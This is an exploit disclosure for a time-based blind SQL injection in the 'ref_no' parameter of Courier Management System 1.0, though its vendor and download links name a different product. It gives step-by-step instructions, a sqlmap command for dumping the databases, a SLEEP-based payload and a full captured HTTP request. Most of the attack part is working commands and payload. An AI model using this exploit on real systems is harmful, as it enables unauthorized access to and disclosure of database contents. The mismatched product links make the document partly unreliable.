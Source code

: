 # Courier Management System 1.0 - 'ref_no' SQL Injection.md
## Exploit Author: Zhaiyi (Zeo)
## Date: 2020-12-11
## Vendor Homepage: https://www.sourcecodester.com/php/14615/task-management-system-using-phpmysqli-source-code.html
## Software Link: https://www.sourcecodester.com/download-code?nid=14615&title=Task+Management+System+using+PHP%2FMySQLi+with+Source+Code
## Affected Version: Version 1
## Category: Web Application

Step 1. Log into application with credentials

Step 2. Click on Branch

Step 3. Select New Branch http://127.0.0.1/index.php?page=new_branch

Step 4. Fill the form  , click on save

Step 5. Capture the request of the ""/ajax.php?action=get_parcel_heistory"" page inburpsute

Step 6. Save request and run sqlmap on request file using command " sqlmap -r request --time-sec=5 --dbs "

Step 7. This will inject successfully and you will have an information disclosure of all databases contents


```
---
Parameter: ref_no (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ref_no=123' AND (SELECT 5575 FROM (SELECT(SLEEP(5)))ngIo) AND
'knst'='knst
---
```

POST
```
POST /ajax.php?action=get_parcel_heistory HTTP/1.1
Host: 10.211.55.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 69
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=7d3o3jettnoe5mlbqbu2r07kv0
Origin: http://10.211.55.4
Referer: http://10.211.55.4/htdocs/index.php?page=track
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

ref_no=123
```

![image-20201214102736371](https://gitee.com/godzeo/blogimg/raw/master/img/20201214102736.png)


